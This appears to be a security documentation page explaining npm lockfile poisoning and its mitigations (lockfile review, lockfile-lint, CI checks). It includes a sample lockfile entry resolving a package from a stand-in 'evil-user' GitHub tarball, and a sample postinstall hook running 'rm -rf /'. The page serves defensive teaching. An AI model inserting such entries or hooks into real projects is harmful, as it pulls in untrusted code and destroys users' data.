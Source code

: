 ```yaml
---
name: Lockfile
menu: Attacks explained
route: /attacks_explained/lockfile
---
```


# Lockfile Attack

## The Attack

This attack is very specific to Nodejs ecosystem and it [was discovered in 2019](https://snyk.io/blog/why-npm-lockfiles-can-be-a-security-blindspot-for-injecting-malicious-modules/) by [Liran Tal](https://twitter.com/liran_tal).

It is quite common to include external dependencies in Nodejs. The ecosystem is heavily based in [NPM Registry (+1M packages)](https://www.npmjs.com/).

Most projects manage their dependencies using Npm official client or Yarn. Since few years ago both tools introduced the lockfile concept to the ecosystem (`package-lock.json` and `yarn.lock`).

If the project have a lockfile available the package manager will install the dependencies from the lockfile as a primary source of truth. This lead us to a new vector where a malicious actor can submit a poison dependency trough the lockfile as most of the maintainers doesn't review the lockfiles during the PR Reviews.

This is regular `package-lock.json`.

```json
{
  "name": "my-project",
  "version": "0.0.1",
  "lockfileVersion": 1,
  "requires": true,
  "dependencies": {
    "@babel/code-frame": {
      "version": "7.8.3",
      "resolved": "https://registry.npmjs.org/@babel/code-frame/-/code-frame-7.8.3.tgz",
      "integrity": "sha512-a9gxpmdXtZEInkCSHUJDLHZVBgb1QS0jhss4cPP93EW7s+uC5bikET2twEF3KV+7rDblJcmNvTR7VJejqd2C2g==",
      "dev": true,
      "requires": {
        "@babel/highlight": "^7.8.3"
      }
    }
    //...
  }
}
```

The malicious attack take place when the `resolved` and `integrity` are not corresponding to official sources:


```json
{
  "name": "my-project",
  "version": "0.0.1",
  "lockfileVersion": 1,
  "requires": true,
  "dependencies": {
    "@babel/code-frame": {
      "version": "7.8.3",
      "resolved": "https://github.com/evil-user/code-frame/tarball/master",
      "integrity": "sha512-VT0ZI6kZRdTh8YyJw3SMbYm/u+NqfsAxEpWO0Pf9sq8/e94WxxOpPKx9FR1FlyCtOVDNOQ+8ntlqFxiRc+r5qA==",
      "dev": true,
      "requires": {
        "@babel/highlight": "^7.8.3"
      }
    }
    //...
  }
}
```

So the risk is that in this case is that `@babel/code-frame` is not installed from the NPM registry. This can lead to many attacks based on the npm lifecycle (pre-install, post-install...)

As an example of malicious script added in the poisoned version of `@babel/code-frame`
```
"scripts": {
   "postinstall": "rm -rf /",
}
```

## The solution

There are no definitive solutions to avoid this attack but can be highly mitigated.

## Mitigation

- Always review the lockfiles in the PRs.
- Use a tool to check the lockfile sources enables like `lockfile-lint`
    ```bash
    npx lockfile-lint --path yarn.lock --type yarn --validate-https --allowed-hosts yarnpkg.org
    ```
- Include the validation tools in the CI process (testing phase and security checks)
- Optional: You can include the sources validation with Git Hooks too (using Husky)


### Refs
- [Snyk | What is package lock json and how a lockfile works for yarn and npm packages?](https://snyk.io/blog/what-is-package-lock-json/)
- [Snyk | Why npm lockfiles can be a security blindspot for injecting malicious modules](https://snyk.io/blog/why-npm-lockfiles-can-be-a-security-blindspot-for-injecting-malicious-modules/)
- [Medium | Everything You Wanted To Know About package-lock.json But Were Too Afraid To Ask](https://medium.com/coinmonks/everything-you-wanted-to-know-about-package-lock-json-b81911aa8ab8)